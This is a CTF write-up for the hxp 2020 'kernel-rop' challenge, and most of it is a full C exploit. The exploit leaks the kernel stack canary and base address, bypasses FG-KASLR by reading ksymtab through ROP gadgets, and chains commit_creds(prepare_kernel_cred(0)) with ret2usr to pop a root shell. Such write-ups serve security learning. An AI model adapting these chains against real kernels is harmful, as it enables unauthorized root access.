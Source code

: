 # hxp2020 kernel-rop

*kernel-rop fg-kalsr*



## Vulnerability

​	The vulnerability is more than straight forward, the *hackme_read* and *hackme_write* gives you stack value leak and stack overflow respectively.

<img src="pic/2021-11-02 14-39-24 的屏幕截图.png" alt="2021-11-02 14-39-24 的屏幕截图" style="zoom:50%;" />

<img src="pic/2021-11-02 14-40-14 的屏幕截图.png" alt="2021-11-02 14-40-14 的屏幕截图" style="zoom:50%;" />



​	The stack overflow length is long enough to put a rop chain in the stack. And we may leak the kernel canary and kernel load base address from the stack value leak by *hackme_read*.

​	The only thing need to be mentioned here is that the kernel is compiled with **fg-kalsr** enabled. And we have to bypass it to achieve kernel rop and ret2usr.



## Exploitation

from the top level we

1. leak kernel canary and kernel load base address by *hackme_read*
2. leak the load address of *prepare_kernel_creds* and *commit_creds* by reading `ksymtab`
3. invoke *commit_creds(prepare_kernel_creds(0))* to achive escalation and ret2usr to pop a root shell



### leak kernel canary & kernel load base address

​	The vulnerability in *hackme_read* allows us to read a rather long range of stack value in the kenrel stack by setting the `size` parameter. We can leak values in the stack to find out the kernel canary and find some function pointer that leaks the kernel load base address.

```c
	if((hackme_fd = open("/dev/hackme", O_RDWR)) == -1) ErrExit("[-] open() error1");
    read(hackme_fd, buf, LEAKLEN);
    unsigned long* p;
    p = (unsigned long*)buf;
    for(int i=0;i<LEAKLEN/8;i++){
        printf("[*] kernel stack leak[%d] : 0x%lx\n", i, p[i]);
    }
    kernel_canary = p[16];
    kernel_load_base = p[38] - 0xa157;
    printf("[*] kernel load @ 0x%lx\n", kernel_load_base);
    printf("[*] kernel canary: 0x%lx\n", kernel_canary);
```



### by pass fg-kalsr

​	We may notice the kernel is enabled with **fg-kalsr** during the leaking stage for each time we leak the stack values and find some funtion pointers, their offsets from the kernel load base are unique.

​	read more about fg-kalsr by pass 

1. https://lkmidas.github.io/posts/20210205-linux-kernel-pwn-part-3/#about-kaslr-and-fg-kaslr



​	First we find some gadget to read the `ksymtab` from the region where fg-kalsr does not function. The region is `_text` to `__x86_retpoline_r15`, which is `_text` to `_text+0x400dc6`. 3 gadgets can be found to leak value in `ksymtab`.

```
pop rax; ret
mov eax, qword ptr [rax + 0x10]; pop rbp; ret;
pop rdi; pop rbp; ret;
```

​	We put the address of `ksymtab` minus 0x10 to rax and read the value to `eax`, then we ret to userspace, read the `eax` to get the offset value.

```c
	unsigned long* rop = (unsigned long*)((unsigned long)buf + 0x80);
    *rop = kernel_canary;
    rop = (unsigned long*)((unsigned long)buf + 0xA0);
    *rop++ = kernel_load_base + POPRAX;
    *rop++ = kernel_load_base + SYMCOMMITCRED - 0x10;
    *rop++ = kernel_load_base + MOVRAXPOPRBP;
    *rop++ = 0xcafebabe;
    *rop++ = kernel_load_base + SWAPGS;
    *rop++ = 0;
    *rop++ = 0;
    *rop++ = (unsigned long)stage1;
    *rop++ = state.cs;
    *rop++ = state.rflag;
    *rop++ = state.sp;
    *rop++ = state.ss;
```

​	The leak of *commit_creds* and *prepare_kernel_creds* are similar. We put each leak operation in a seperate funtion and are reted to during ret2usr.



### prompt a root shell

​	Old fashioned ret2usr



### exp

```c
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <stdio.h>

#include "kernelpwn.h"

#define LEAKLEN 0x150
#define SYMCOMMITCRED 0xf87d90
#define SYMPREPARECRED 0xf8d4fc
#define SWAPGS 0x200f26
#define POPRAX 0x4d11
#define MOVRAXPOPRBP 0x4aae
// mov eax, qword ptr [rax + 0x10]; pop rbp; ret;
#define POPRDIRBP 0x38a0

int hackme_fd;
unsigned long hackme_buf_addr;
unsigned long kernel_canary;
unsigned long kernel_load_base;
unsigned long commit_cred_addr;
unsigned long prepare_cred_addr;
unsigned long offset_value;
char buf[0x1000];
struct cpu_state state;

int stage3(){
    __asm__(
        "mov %0, rax\n"
        : "=r"(offset_value)
        :
        :"memory"
    );
    printf("[*] cred struct @ 0x%lx\n", offset_value);

    unsigned long* rop = (unsigned long*)((unsigned long)buf + 0x80);
    *rop = kernel_canary;
    rop = (unsigned long*)((unsigned long)buf + 0xA0);
    *rop++ = kernel_load_base + POPRDIRBP;
    *rop++ = offset_value;
    *rop++ = 0;
    *rop++ = commit_cred_addr;
    *rop++ = kernel_load_base + SWAPGS;
    *rop++ = 0;
    *rop++ = 0;
    *rop++ = (unsigned long)promt_root_shell;
    *rop++ = state.cs;
    *rop++ = state.rflag;
    *rop++ = state.sp;
    *rop++ = state.ss;
    write(hackme_fd, buf, 0x100);
    return 0;
}

int stage2(){
    __asm__(
        "mov %0, rax\n"
        : "=r"(offset_value)
        :
        :"memory"
    );
    prepare_cred_addr = kernel_load_base + SYMPREPARECRED + (int)offset_value;
    printf("[*] prepare_kernel_creds @ 0x%lx\n", prepare_cred_addr);

    unsigned long* rop = (unsigned long*)((unsigned long)buf + 0x80);
    *rop = kernel_canary;
    rop = (unsigned long*)((unsigned long)buf + 0xA0);
    *rop++ = kernel_load_base + POPRDIRBP;
    *rop++ = 0;
    *rop++ = 0;
    *rop++ = prepare_cred_addr;
    *rop++ = kernel_load_base + SWAPGS;
    *rop++ = 0;
    *rop++ = 0;
    *rop++ = (unsigned long)stage3;
    *rop++ = state.cs;
    *rop++ = state.rflag;
    *rop++ = state.sp;
    *rop++ = state.ss;
    write(hackme_fd, buf, 0x100);
    return 0;
}


int stage1(){
    __asm__(
        "mov %0, rax\n"
        : "=r"(offset_value)
        :
        :"memory"
    );
    commit_cred_addr = kernel_load_base + SYMCOMMITCRED + (int)offset_value;
    printf("[*] commit_cred @ 0x%lx\n", commit_cred_addr);
    unsigned long* rop = (unsigned long*)((unsigned long)buf + 0x80);
    *rop = kernel_canary;
    rop = (unsigned long*)((unsigned long)buf + 0xA0);
    *rop++ = kernel_load_base + POPRAX;
    *rop++ = kernel_load_base + SYMPREPARECRED - 0x10;
    *rop++ = kernel_load_base + MOVRAXPOPRBP;
    *rop++ = 0xcafebabe;
    *rop++ = kernel_load_base + SWAPGS;
    *rop++ = 0;
    *rop++ = 0;
    *rop++ = (unsigned long)stage2;
    *rop++ = state.cs;
    *rop++ = state.rflag;
    *rop++ = state.sp;
    *rop++ = state.ss;
    write(hackme_fd, buf, 0x100);
    return 0;
}

int main(){
    save_state(state);
    if((hackme_fd = open("/dev/hackme", O_RDWR)) == -1) ErrExit("[-] open() error1");
    read(hackme_fd, buf, LEAKLEN);
    unsigned long* p;
    p = (unsigned long*)buf;
    for(int i=0;i<LEAKLEN/8;i++){
        printf("[*] kernel stack leak[%d] : 0x%lx\n", i, p[i]);
    }
    kernel_canary = p[16];
    kernel_load_base = p[38] - 0xa157;
    printf("[*] kernel load @ 0x%lx\n", kernel_load_base);
    printf("[*] kernel canary: 0x%lx\n", kernel_canary);

    unsigned long* rop = (unsigned long*)((unsigned long)buf + 0x80);
    *rop = kernel_canary;
    rop = (unsigned long*)((unsigned long)buf + 0xA0);
    *rop++ = kernel_load_base + POPRAX;
    *rop++ = kernel_load_base + SYMCOMMITCRED - 0x10;
    *rop++ = kernel_load_base + MOVRAXPOPRBP;
    *rop++ = 0xcafebabe;
    *rop++ = kernel_load_base + SWAPGS;
    *rop++ = 0;
    *rop++ = 0;
    *rop++ = (unsigned long)stage1;
    *rop++ = state.cs;
    *rop++ = state.rflag;
    *rop++ = state.sp;
    *rop++ = state.ss;

    write(hackme_fd, buf, 0x100);
    return 0;
}
```